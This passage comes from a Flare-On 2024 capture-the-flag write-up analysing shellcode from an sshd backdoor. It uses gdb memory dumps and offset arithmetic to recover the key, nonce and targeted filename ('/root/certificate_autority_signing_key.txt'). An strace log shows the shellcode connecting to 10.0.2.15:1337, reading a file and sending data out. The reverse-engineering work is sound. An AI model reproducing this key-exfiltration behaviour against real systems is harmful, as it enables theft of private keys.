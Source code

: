 Run the python file with dummy inputs and run gdb.
```bash
sudo gdb -ex "set sysroot /home/kali/Desktop/ssh_container" ./test

(gdb) r
(gdb) info proc mappings
(gdb) dump memory dump_file.bin 0x7ffffffde000 0x7ffffffff000	// for stack
```

Search in the dump_file.bin for the dummy inputs and filename
- 32 + 12 bytes input offset: 0x1EE98; filename offset: 0x1EEC8<br />
![img](./2024-FlareOn11/flareon2024-5-6.png)
- 4 bytes input offset: 0x20048
![img](./2024-FlareOn11/flareon2024-5-7.png)
- 32 + 12 bytes input offset: 0x20098, 0x200E0
![img](./2024-FlareOn11/flareon2024-5-8.png)
...
![img](./2024-FlareOn11/flareon2024-5-9.png)<br /><br />

On the test.cpp file stack,
- From "aaaaa…test.txt" to "expand 32-byte k" (which also appears in sshd core dump stack)
  - 0x201F0 - 0x1EE98 = 0x1358
  - This is the space between the stack of the main process and the stack in the shellcode.
<br /><br />

Using this information, in sshd core,
- 0x7ffc c660 1f40 - 0x1358 = 0x7ffc c660 0be8<br />
![img](./2024-FlareOn11/flareon2024-5-10.png)
  - 0x7ffc c660 0be8: 32 byte data
  - 0x7ffc c660 0c08: 12 byte data
  - 0x7ffc c660 0c15: 4 byte data
  - 0x7ffc c660 0c18: filename /root/certificate_autority_signing_key.txt
<br /><br />

```
8d ec 91 12 eb 76 0e da 7c 7d 87 a4 43 27 1c 35 d9 e0 cb 87 89 93 b4 d9 04 ae f9 34 fa 21 66 d7     // 32 bytes
11 11 11 11 11 11 11 11 11 11 11 11     // 12 bytes
20 00 00 00                             // 4 bytes
2f 72 6f 6f 74 2f 63 65 72 74 69 66 69 63 61 74 65 5f 61 75 74 68 6f 72 69 74 79 5f 73 69 67 6e 69 6e 67 5f 6b 65 79 2e 74 78 74 00      // filename
```
<br />

Using the info from strace without server.py
```bash
getuid()                            	= 0
mmap(NULL, 3990, PROT_READ|PROT_WRITE|PROT_EXEC, MAP_PRIVATE|MAP_ANONYMOUS, -1, 0) = 0x7efdcda14000
socket(AF_INET, SOCK_STREAM, IPPROTO_TCP) = 3
connect(3, {sa_family=AF_INET, sin_port=htons(1337), sin_addr=inet_addr("10.0.2.15")}, 16) = -1 ECONNREFUSED (Connection refused)
recvfrom(-111, 0x7ffde85cf288, 32, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
recvfrom(-111, 0x7ffde85cf2a8, 12, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
recvfrom(-111, 0x7ffde85d0438, 4, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
recvfrom(-111, 0x7ffde85cf2b8, 0, 0, NULL, NULL) = -1 EBADF (Bad file descriptor)
open("", O_RDONLY)                  	= -1 ENOENT (No such file or directory)
read(-2, 0x7ffde85cf3b8, 128)       	= -1 EBADF (Bad file descriptor)
sendto(-111, "\6\0\0\0", 4, 0, NULL, 0) = -1 EBADF (Bad file descriptor)
sendto(-111, "yV\253\254O\227", 6, 0, NULL, 0) = -1 EBADF (Bad file descriptor)
```
- recvfrom() reads from the 32 bytes, 12 bytes, 4 bytes data. 
- Lastly it reads the filename at 0x7ffde85cf2b8 and then read() reads 128 bytes at 0x7ffde85cf3b8.
- 0x7ffde85cf3b8 - 0x7ffde85cf2b8 = 0x100
<br /><br />